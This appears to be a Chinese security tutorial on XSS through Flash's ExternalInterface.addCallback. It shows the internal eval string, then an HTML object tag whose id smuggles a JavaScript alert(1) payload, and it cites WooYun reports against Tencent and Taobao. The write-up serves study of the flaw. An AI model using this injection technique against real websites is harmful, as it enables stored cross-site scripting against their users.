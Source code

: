 执行了函数之后，在html上可以通过使用函数名test来调用Flash中的函数a。

addCallback的原理：

```
if ((((activeX == true)) && (!((objectID == null))))){

    _evalJS((((("__Flash__addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));

};

```

objectID为Flash的id，functionName为函数名称，因此当我们插入的Flash的id可控的时候，可能会出现xss问题。

Wooyun上已经出现的类似问题：

[WooYun: [腾讯实例教程] 那些年我们一起学XSS - 21. 存储型XSS进阶 [猜测规则，利用Flash addCallback构造XSS]](http://www.wooyun.org/bugs/wooyun-2013-016803)

[WooYun: Flash应用安全系列[4]--Flash Player的又一个0day](http://www.wooyun.org/bugs/wooyun-2013-017309)

[WooYun: QQ空间某功能缺陷导致日志存储型XSS - 12](http://www.wooyun.org/bugs/wooyun-2013-021020)

本着学习的原则，本地创建了Flash文件，

```
function a(){
    trace("hi")
}
ExternalInterface.addCallback("test",a)

```

x.html页面

```
<object id="addcallback,&quot;),(function(){if(!window.x){window.x=1;alert(1)}})(),(&quot;" codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "./addCallback.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>

```

访问该界面（IE8下测试）：

![enter image description here](http://drops.javaweb.org/uploads/images/f110ca87afc1e068aca56fb94afc4efef91dea80.jpg)

**Flash缺陷参数addcallback与lso结合**

这个问题出现的点在addCallback声明的函数，在被html界面js执行之后的返回值攻击者可控，导致了xss问题。使用lso中首先会setlso，写入脏数据，然后getlso获取脏数据。

Wooyun实例链接：

[WooYun: 一个flash的0day导致的淘宝网存储xss(可形成永久后门)](http://www.wooyun.org/bugs/wooyun-2013-039481)
